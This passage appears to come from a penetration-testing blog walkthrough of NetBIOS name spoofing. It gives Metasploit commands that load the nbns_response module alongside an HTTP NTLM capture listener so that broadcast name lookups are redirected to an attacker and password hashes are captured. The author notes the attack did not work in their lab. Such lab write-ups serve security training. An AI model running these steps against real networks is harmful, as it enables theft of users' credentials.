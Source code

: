 ![HTTP Server listener](/assets/img/pitcures/netbios/netbios13.png)
_HTTP Server listener_

The `auxiliary/spoof/nbns/nbns_response` module creates NetBIOS broadcast requests over the network and sends NetBIOS name service responses to hosts.

```bash
msf6 auxiliary(server/capture/http_ntlm) > use auxiliary/spoof/nbns/nbns_response
msf6 auxiliary(spoof/nbns/nbns_response) > set SPOOFIP 10.10.x.x # Target IP address
msf6 auxiliary(spoof/nbns/nbns_response) > run
```

![Spoofing target machine with NBNS Response.](/assets/img/pitcures/netbios/netbios14.png)
_Spoofing target machine with NBNS Response._

When a network user will attempt to use the NetBIOS broadcast request to identify a resource the traffic will redirected to the attacker host and the password hash will be captured. It’is not worked my demo lab. I think it’s about virtual environment.  But i shared expected result from pentestlab.com guide.

![My demo outputs.](/assets/img/pitcures/netbios/netbios15.png)
_My demo outputs._
